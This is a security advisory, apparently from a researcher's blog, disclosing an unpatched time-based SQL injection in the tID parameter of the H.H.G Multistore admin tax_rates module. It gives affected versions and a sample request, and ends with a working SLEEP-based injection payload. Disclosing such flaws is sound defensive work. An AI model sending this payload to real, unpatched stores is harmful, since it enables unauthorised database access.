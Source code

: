 ```yaml
---
title: "H.H.G Multistore - SQL-Injection in tID"
date: 2022-05-05
draft: false
authors: ["blockomat"]
tags: ["advisory"]
description: "SQL-Injection H.H.G Multistore"
featuredImage: "/alert.jpg"
featuredImagePreview: "/alert_crop.png"
---
```


Security vulnerabilities were found in [H.H.G Multistore](https://www.hhg-multistore.com/).

There is no patch available. This product seems to be end of life, last versions were published 4/5 years ago.

<!--more-->

The following products are affected:

| Product            | Version  |
|--------------------|----------|
| Enterprise Edition | <= 5.1.0 |
| Community Edition  | 4.10.3   |

I did not test the exclusive edition.

## Timeline
- 05/05/2022: Request CVE-ID(s)
- 07/05/2022: Publish Advisory


## SQL-Injection - tID
The `tID` parameter in the `tax_rates` module is vulnerable to SQL-Injection.

The original request looks like this:

```
GET /admin/index.php?module=tax_rates&tID=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: HHGsid=1834c426aaf341d09a7942a3990d720a
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

The following payload was used:

```
GET /admin/index.php?module=tax_rates&tID=module=tax_rates&tID=1'%20AND%20(SELECT%203172%20FROM%20(SELECT(SLEEP(5)))Wjjj)--%20- HTTP/1.1
[...]
```